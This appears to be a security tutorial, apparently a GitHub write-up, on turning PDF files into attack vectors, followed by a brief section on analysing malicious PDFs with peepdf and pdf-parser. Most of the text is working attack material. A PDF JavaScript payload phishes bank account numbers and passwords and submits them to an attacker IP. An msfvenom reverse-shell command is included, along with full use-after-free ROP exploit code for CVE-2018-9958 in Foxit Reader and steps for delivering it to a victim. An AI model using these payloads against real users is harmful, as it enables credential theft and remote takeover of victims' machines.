










## Table of contents

<!--ts-->
* [Introduction](##Introduction)
* [Write a PDF file](##Write-a-PDF-file)
* [PDF Injection](##PDF-Injection)
	* [XSS](###XSS)
		* [Alert Box](####Alert-Box)
		* [Stealing Credentials](####Stealing-Credentials)
		* [Open Malicious Link](####Open-Malicious-Link)
	* [RCE](###RCE)
* [PDF analysis](##PDF-analysis)
	* [Peepdf](###Peepdf)
	* [pdf-parser](###pdf-parser)
* [References](##References)

<!--te-->

## Introduction

While doing research on how to use PDF as an attack vector, I went through multiple resources that gave me a lot of valuable information, but without knowledge of the PDF structure will face a lot of difficulties, I decided to dig more and learn the structure of PDF, This  inspired me how we can use PDF as an attack vector and perform multiple attacks with huge subsequences to the victim.

## Write a PDF file

To write a PDF file must know the PDF structure, for that I suggest reading [Let’s write a PDF file](https://speakerdeck.com/ange/lets-write-a-pdf-file) A simple walk-through to learn the basics of the PDF format.



---------

## PDF Injection

Popup Windows (dialogs) are an important component of Acrobat interactivity. Popup Windows provides the user with error messages, warnings, and other key information. They ask the user questions and collect input. Acrobat has several types of built-in Popup Windows (alert, response, and file open), as well as functions for creating custom dialogs.

Will demonstrate how to create the "alert(1)" of PDF injection and how to improve it to inject JavaScript that can steal credentials and open a malicious link.

We can inject code in PDF like XSS injection inside the javascript function call. In normal XSS you need to make sure the syntax is correct and valied, the same principle is applied to PDF except the injection is inside an object, such as javascript, text stream or annotation URI.

### XSS

To perform an XSS we inject our payload in javascript object and make sure the parenthesis are closed correctly.
you can note that the injection was successful if the PDF render correctly without any error. Breaking the PDF is nice, but we need to ensure we could execute JavaScript of course.
I started XSS with a popup alert by injecting a javascript code to the PDF file as following.

##### Alert Box

The app.alert() function is used to display a popup box to the victim.
```
<<
/Type /Action
/S /JavaScript
/JS (app.alert('XSS');)
>>
```
This will pop up alert box when PDF file open.



If you find it difficult to inject the script manually you can use [JS2PDFInjector](https://github.com/cornerpirate/JS2PDFInjector){:target="_blank" rel="noopener"} tool.

##### Stealing Credentials

Most banks send monthly statements protected with the client's account and password, The client can be phished and stolen his credentials if he is a victim of a phishing attack.

The following scenario demonstrate how an attacker can steal credentials and send them to his server using submit form method.

The first argument to app.response() is the text displayed in the body of the Response Box. This is the standard input, but the Response Box can be called with no arguments at all since it always displays a text input box. The text entered in this box will be returned to the account variable if the user presses the OK button to exit the dialog. If they press Cancel , account will be null, same thing in the second argument.

In cURL variable, the attacker server is added along with the account and password collected from the victim, this submitted to the attacker using submitForm() function.

```
<<
/Type /Action
/S /JavaScript
/JS
(
var account = app.response ({ cQuestion:"Enter your Bank Account Number", cTitle:"Bank Account Details", bPassword:false, cDefault: global.cLastPswd, cLabel:"A/C"}); 
var password = app.response ({ cQuestion:"Enter your Bank Account Passowrd", cTitle:"Bank Account Details", bPassword:true, cDefault: global.cLastPswd, cLabel:"Password"});
var cURL = "http://192.168.1.10:443" + "?" + "account=" + account + "&password=" + password;
this.submitForm({cURL: encodeURI(cURL), cSubmitAs: 'HTML'});
)
>>
```






#### Open Malicious Link

An attacker can embed a malicious link in a PDF, when the victim opens the PDF a popup message of security warning will show, if the link looks legitimate the victim may click allow and open a malicious website.

The URI method allowed launching a link while opening the PDF, which can misuse by attackers to launch malicious links.

```
<<
/Type /Action
/S /URI
/URI (https://twitter.com/0xCyberY)
>>
```
The same can be approached using app.launchURL() function in the javascript object.

```
<<
/Type /Action
/S /JavaScript
/JS
(
app.launchURL("https://twitter.com/0xCyberY", true);
)
>>
```



### RCE

Using outdated versions of PDF reader or embedded executable files into PDF may lead to remote code execution, For demonstration will use Foxit Reader 9.0.1.1049 to exploit [CVE-2018-9958](https://www.exploit-db.com/exploits/49116){:target="_blank" rel="noopener"}.

- We need to download the exploit from exploit-db.
- Generate executable payload using `msfvenom -p windows/shell_reverse_tcp -f exe LHOST=192.168.1.10 LPORT=443 -o shell.exe`.
- Run the exploit `python3 49116.py \\\\192.168.1.10\\\share\\shell.exe remote_code_exe.pdf ` to create the PDF file.

This exploit will create an empty PDF embedded with a javascript payload this look very suspious to the victim, for that will inject the script into a nonempty PDF so it can't be suspicious.

```
var heap_ptr   = 0;
var foxit_base = 0;
var pwn_array  = [];

function prepare_heap(size){
    var arr = new Array(size);
    for(var i = 0; i < size; i++){
        arr[i] = this.addAnnot({type: "Text"});;
        if (typeof arr[i] == "object"){
            arr[i].destroy();
        }
    }
}

function gc() {
    const maxMallocBytes = 128 * 0x100000;
    for (var i = 0; i < 3; i++) {
        var x = new ArrayBuffer(maxMallocBytes);
    }
}

function alloc_at_leak(){
    for (var i = 0; i < 0x64; i++){
        pwn_array[i] = new Int32Array(new ArrayBuffer(0x40));
    }
}

function control_memory(){
    for (var i = 0; i < 0x64; i++){
        for (var j = 0; j < pwn_array[i].length; j++){
            pwn_array[i][j] = foxit_base + 0x01a7ee23; // push ecx; pop esp; pop ebp; ret 4
        }
    }
}

function leak_vtable(){
    var a = this.addAnnot({type: "Text"});

    a.destroy();
    gc();

    prepare_heap(0x400);
    var test = new ArrayBuffer(0x60);
    var stolen = new Int32Array(test);

    var leaked = stolen[0] & 0xffff0000;
    foxit_base = leaked - 0x01f50000;
}

function leak_heap_chunk(){
    var a = this.addAnnot({type: "Text"});
    a.destroy();
    prepare_heap(0x400);

    var test = new ArrayBuffer(0x60);
    var stolen = new Int32Array(test);

    alloc_at_leak();
    heap_ptr = stolen[1];
}

function reclaim(){
    var arr = new Array(0x10);
    for (var i = 0; i < arr.length; i++) {
        arr[i] = new ArrayBuffer(0x60);
        var rop = new Int32Array(arr[i]);

        rop[0x00] = heap_ptr;                // pointer to our stack pivot from the TypedArray leak
        rop[0x01] = foxit_base + 0x01a11d09; // xor ebx,ebx; or [eax],eax; ret
        rop[0x02] = 0x72727272;              // junk
        rop[0x03] = foxit_base + 0x00001450  // pop ebp; ret
        rop[0x04] = 0xffffffff;              // ret of WinExec
        rop[0x05] = foxit_base + 0x0069a802; // pop eax; ret
        rop[0x06] = foxit_base + 0x01f2257c; // IAT WinExec
        rop[0x07] = foxit_base + 0x0000c6c0; // mov eax,[eax]; ret
        rop[0x08] = foxit_base + 0x00049d4e; // xchg esi,eax; ret
        rop[0x09] = foxit_base + 0x00025cd6; // pop edi; ret
        rop[0x0a] = foxit_base + 0x0041c6ca; // ret
        rop[0x0b] = foxit_base + 0x000254fc; // pushad; ret
        
        //Path to executable

	rop[0x0c] = 0x39315c5c;
	rop[0x0d] = 0x36312e32;
	rop[0x0e] = 0x2e312e38;
	rop[0x0f] = 0x735c3031;
	rop[0x10] = 0x65726168;
	rop[0x11] = 0x6568735c;
	rop[0x12] = 0x652e6c6c;
	rop[0x13] = 0x00006578;
	rop[0x14] = 0x00000000;
	rop[0x15] = 0x00000000;
	rop[0x16] = 0x00000000;
        
        //End Path to executable

        rop[0x17] = 0x00000000;              // adios, amigo
    }
}

function trigger_uaf(){
    var that = this;
    var a = this.addAnnot({type:"Text", page: 0, name:"uaf"});
    var arr = [1];
    Object.defineProperties(arr,{
        "0":{
            get: function () {

                that.getAnnot(0, "uaf").destroy();

                reclaim();
                return 1;
            }
        }
    });

    a.point = arr;
}

function main(){
    leak_heap_chunk();
    leak_vtable();
    control_memory();
    trigger_uaf();
}

if (app.platform == "WIN"){
    if (app.isFoxit == "Foxit Reader"){
        if (app.appFoxitVersion == "9.0.1.1049"){
            main();
        }
    }
}
```
This code may differ from yours as the executable path may difference.

When the PDF opens request will send to execute shell.exe file in the share SMB folder, when shell.exe is executing will send a reverse shell to the attacker.

- Deliver the malicious PDF to the victim.
- Set SMB share where located shell.exe 
- Set a netcat listener at port 443.
- Open the PDF using Foxit Reader.





 
> Note: javascript code can be encode to hex example:  
> app.alert('XSS'); = <6170702e616c657274282758535327293b>

## Analyze Malicious PDFs

It is great to have red team skills and be able to launch an attack using PDF with multiple techniques, but the greatest is to have read team skills as well as a blue team, so you can launch an attack and know  defence techniques and how can analysis the malicious files.

This article will showcase how can analyze PDFs using tools such as peepdf, pdf-parser, and pestudio.

### [Peepdf](https://github.com/jesparza/peepdf){:target="_blank" rel="noopener"}

Let's start analyzing the bank_statment.pdf file as a malicious PDF.



As we can see there is one object with javascript code at object [3].

To extract this object we can use another tool called pdf-parser. 

### [pdf-parser](http://didierstevens.com/files/software/pdf-parser_V0_6_4.zip){:target="_blank" rel="noopener"}

We know the file name and the object number, so provide them as arguments to pdf-parser.



There are so many arguments that will leave them to you to discover like -f to pass stream object through filters and -d to dump stream content to a file.

#### You can get all PDFs used in this article [Here](https://github.com/0xCyberY/CVE-T4PDF){:target="_blank" rel="noopener"}

## References
- [Let's write a PDF file](https://speakerdeck.com/ange/lets-write-a-pdf-file?slide=1){:target="_blank" rel="noopener"}
- [Portable Data exFiltration: XSS for PDFs](https://speakerdeck.com/ange/lets-write-a-pdf-file?slide=1){:target="_blank" rel="noopener"}
- [Learn and Play with PDF Source Code](https://github.com/angea/PDF101){:target="_blank" rel="noopener"}
- [PDF - Mess With The Web](https://www.youtube.com/watch?v=WQsDpYnJT6A&ab_channel=OWASPFoundation){:target="_blank" rel="noopener"}
- [Familiarity with the Acrobat JavaScript environment](https://acrobatusers.com/tutorials/popup_windows_part1/#:~:text=The%20first%20argument%20to%20app,displays%20a%20text%20input%20box){:target="_blank" rel="noopener"}
- [The PDF invoice that phished you](https://blog.reversinglabs.com/blog/the-pdf-invoice-that-phished-you){:target="_blank" rel="noopener"}
- [adobe-acrobat-javascript-action](http://blog.weston-fl.com/adobe-acrobat-javascript-action-to-launch-external-media-player/){:target="_blank" rel="noopener"}
- [Malicious PDFs Revealing the Techniques Behind the Attacks](https://forums.hardwarezone.com.sg/threads/din-know-pdf-so-dangerous-one-can-actually-execute-malicious-code.6587298/){:target="_blank" rel="noopener"}
- [Analyze Malicious PDFs](https://www.youtube.com/watch?v=AzXf7GV0jew&ab_channel=Intezer){:target="_blank" rel="noopener"}
- [PDF_analysis](https://github.com/zbetcheckin/PDF_analysis){:target="_blank" rel="noopener"}


##### -------------------------------- I really hope you found this useful. --------------------------------